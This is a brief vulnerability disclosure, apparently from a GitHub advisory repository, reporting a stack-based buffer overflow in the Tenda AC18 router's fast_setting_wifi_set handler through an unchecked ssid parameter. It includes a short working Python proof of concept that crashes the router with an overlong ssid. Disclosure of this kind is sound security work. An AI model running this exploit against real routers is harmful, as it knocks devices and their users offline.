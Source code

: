 # Tenda Router AC18 Vulnerability
This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fast_setting_wifi_set`.

In function `fast_setting_wifi_set` it reads user provided parameter `ssid`  into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/192_1/vlun.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a **Deny of Service Attack** .
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
